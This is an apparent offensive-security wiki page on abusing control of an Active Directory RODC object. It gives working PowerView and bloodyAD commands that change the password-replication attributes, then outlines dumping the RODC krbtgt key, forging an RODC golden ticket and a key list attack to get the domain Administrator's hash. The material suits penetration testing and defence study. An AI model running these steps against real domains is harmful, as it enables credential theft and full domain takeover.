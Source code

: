 ```yaml
---
authors: 'BlWasp, CravateRouge, ShutdownRepo'
category: ad
---
```


# Rights on RODC object

With administrative control over the [RODC](../builtins/rodc.md) computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.

> [!TIP]
> For more granularity, one of these ACEs against the RODC object is initially sufficient, since they will implicitly allow `WriteProperty` against the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes:
> 
> * `GenericWrite`
> * `GenericAll` / `FullControl`
> * `WriteDacl` (the attacker can modify the DACL and obtain arbitrary permissions)
> * `Owns` (c.f. `WriteDacl`)
> * `WriteOwner` (i.e. the attacker can obtain `Owns` -> `WriteDacl` -> other permissions)
> * `WriteProperty` against the `msDS-RevealOnDemandGroup`attribute in conjunction with another primitive to gain privileged access to the host. `WriteProperty` against the `msDS-NeverRevealGroup` attribute may be required if it includes the target account.

::: tabs

=== UNIX-like

From UNIX-like systems, this [PowerView python package](https://github.com/aniqfakhrul/powerview.py) (Python) can be used to modify the LDAP attribute.


```bash
powerview "$DOMAIN"/"$USER":"$PASSWORD"@"RODC_FQDN"
```
```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
#Then, append the Allowed RODC Password Replication Group group
Set-DomainObject -Identity RODC-server$ -Set msDS-RevealOnDemandGroup='CN=Administrator,CN=Users,DC=domain,DC=local'
Set-DomainObject -Identity RODC-server$ -Append msDS-RevealOnDemandGroup='CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local'

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-server$ -Clear msDS-NeverRevealGroup
```


Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
# Get original msDS-RevealOnDemandGroup values 
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get object 'RODC-server$' --attr msDS-RevealOnDemandGroup
distinguishedName: CN=RODC,CN=Computers,DC=domain,DC=local
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local

# Add the previous value plus the admin account
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local' -v 'CN=Administrator,CN=Users,DC=domain,DC=local'

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-NeverRevealGroup
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.


=== Windows

From Windows systems, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) (PowerShell) can be used for this purpose.

```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.


:::


## Resources

[https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06](https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06)
